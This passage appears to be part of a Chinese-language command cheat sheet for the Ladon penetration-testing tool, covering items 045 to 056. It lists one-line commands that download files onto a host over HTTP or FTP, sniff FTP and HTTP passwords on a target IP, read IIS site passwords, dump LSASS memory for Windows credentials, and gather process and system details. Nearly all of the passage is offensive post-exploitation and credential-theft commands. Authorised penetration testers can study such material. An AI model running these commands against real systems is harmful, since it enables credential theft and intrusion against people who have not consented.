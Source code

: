 ##### 045 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##### 046 Ftp下载 	
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe

### 加密解密(HEX/Base64)

##### 047 Hex加密解密

Ladon 123456 EnHex
Ladon 313233343536 DeHex

##### 048 Base64加密解密

Ladon 123456 EnBase64
Ladon MTIzNDU2 DeBase64

### 网络嗅探

##### 049 Ftp密码嗅探 	
Ladon FtpSniffer 192.168.1.5

##### 050 HTTP密码嗅探 	
Ladon HTTPSniffer 192.168.1.5

##### 051 网络嗅探	
Ladon Sniffer

### 密码读取

##### 052 读取IIS站点密码、网站路径
Ladon IISpwd

##### DumpLsass内存密码 	
Ladon DumpLsass

### 信息收集

##### 053 进程详细信息 	
Ladon EnumProcess
Ladon Tasklist

##### 054 获取命令行参数 	
Ladon cmdline
Ladon cmdline cmd.exe

##### 055 获取渗透基础信息 	
Ladon GetInfo
Ladon GetInfo2

##### 056 .NET & PowerShell版本 	
Ladon NetVer
Ladon PSver
Ladon NetVersion
Ladon PSversion
